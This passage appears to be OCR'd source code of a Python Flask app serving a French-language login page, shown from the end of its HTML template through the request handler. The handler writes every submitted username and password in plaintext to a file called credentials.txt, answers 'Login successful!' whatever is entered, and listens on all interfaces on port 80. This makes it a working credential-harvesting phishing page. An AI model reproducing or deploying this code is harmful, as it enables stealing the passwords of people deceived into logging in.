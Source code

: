         <div class="links">
            <a href="#">Mot de passe oublié ?</a>
        </div>

        <div class="divider">ou</div>

        <div class="links">
            Vous n'avez pas de compte ? <a href="#">S'inscrire</a>
        </div>
    </div>
</body>
</html>
'''

@app.route('/', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        with open('credentials.txt', 'a') as f:
            f.write(f'Username: {username}, Password: {password}\n')
        return 'Login successful!'
    return render_template_string(HTML_TEMPLATE)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
